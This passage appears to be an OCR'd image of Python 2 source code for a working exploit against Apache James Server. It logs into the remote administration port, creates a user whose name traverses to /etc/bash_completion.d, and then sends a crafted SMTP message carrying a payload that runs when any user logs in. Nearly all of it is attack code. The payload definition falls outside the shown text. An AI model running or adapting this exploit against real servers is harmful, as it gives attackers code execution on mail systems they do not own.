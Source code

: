 ```py
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```
